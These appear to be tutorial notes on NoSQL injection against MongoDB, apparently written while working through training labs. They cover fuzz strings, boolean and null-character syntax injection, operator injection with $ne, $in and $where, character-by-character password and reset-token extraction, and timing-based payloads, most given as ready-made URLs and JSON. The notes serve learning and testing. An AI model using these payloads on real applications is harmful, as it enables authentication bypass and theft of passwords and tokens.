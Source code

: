 - syntax injection
- operator injection
### NoSQL Syntax Injection

- **Definition:** Similar to SQL injection,  involves breaking the query syntax and exploiting vulnerabilities.

#### Detecting Syntax Injection in MongoDB

1. Test each input by submitting fuzz strings and special characters.

#### Fuzz Strings

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```

#### Testing

**Example:**

`https://insecure-website.com/product/lookup?category=fizzy`

- The server handles the query as:
    
    ```javascript
    this.category == 'fizzy'
    ```
    
- Fuzz the input using the _fuzz strings_ and analyze the response.
    
- Determine which characters (e.g., single or double quotes) impact the query.
    

**Examples:**

```javascript
this.category == '''
this.category == '\''
```

#### Boolean Influence Testing

**False Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x
```

- No categories are displayed since the query evaluates to false.

**True Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x
```

- The `fizzy` category is displayed, indicating boolean influence.

#### Overriding Existing Conditions

- Use the `||` (OR) operator to override conditions, ensuring the query always returns true:

```
https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1
```

- Server query becomes:

```javascript
this.category == 'fizzy'||'1'=='1'
```

- All categories are displayed.

#### Null Character Injection

- MongoDB may ignore all characters after a null character (`\u0000`).

**Example:**

If the server query is:

```javascript
this.category == 'fizzy' && this.released == 1
```

After injecting a null character:

```javascript
this.category == 'fizzy'\u0000' && this.released == 1
```

- Unreleased objects may be displayed.

---

### Operator Injection

- **Definition:** Abusing NoSQL operators like `$where`, `$ne`, `$in`, and `$regex` to exploit vulnerabilities.

#### Injecting into Query Operators

1. **Example Query:**

```json
{"username":"wiener"}
```

- Queries for username = `wiener`.

**Injection Example:**

```json
{"username":{"$ne":"invalid"}}
```

- Query becomes `username != invalid`, which returns all usernames except `invalid`.

2. Transforming input:

```
username=wiener becomes username[$ne]=invalid
```

3. Complex Query Example:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

- Fetches data if the username is one of `admin`, `administrator`, or `superadmin`, and the password is not empty.

#### Steps to Test:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators into the JSON.

---

### Exfiltrating Data in MongoDB

**Example:**

```
https://insecure-website.com/user/lookup?username=admin
```

Server query:

```json
{"$where":"this.username == 'admin'"}
```

#### Payload Examples:

1. To check if the first character of the password is `a`:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

2. To check if the password contains digits:

```
admin' && this.password.match(/\d/) || 'a'=='b
```

3. To find the password length using binary search:

```
administrator' && this.password.length < 30 || 'a'=='b
```

---

### Extracting Field Names, Lengths, and Values

**Example Query:**

```javascript
db.user.findOne(userInfo)

let userInfo = {
    "_id": "skjfskmjfsdf",
    "username": "carlos",
    "password": {
        "$ne": ""
    },
    "$where": "function(){ return 0;}"
}
```

#### Steps to Extract Information:

1. Check error messages:
    
    - **1:** Account Locked
    - **0:** Invalid
2. Find hidden field names and their lengths:
    

**Example Payloads:**

- Find hidden field name:

```javascript
"$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
```

- Find hidden field name length:

```javascript
"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"
```

- Hidden field name `unlockToken`:

```javascript
"$where": "function(){ if(this.unlockToken.length == 1) return 1; else 0; }"
```

3. Determine value length and content:

- Length is 16:

```javascript
"$where": "function(){ if(this.unlockToken.length == 16) return 1; else 0; }"
```

- Check if value starts with `a`:

```javascript
"$where": "function(){ if(this.unlockToken.match(/^a/)) return 1; else 0; }"
```

- Check if value contains digits:

```javascript
"$where": "function(){ if(this.unlockToken.match(/\\d/)) return 1; else 0; }"
```

---
### Timing based injection

- database error doesn't cause a difference in the application's response
- then , you need to trigger Time based injection `{"$where": "sleep(5000)"}`

- trigger a time delay if the password beings with the letter `a`

```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

```
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```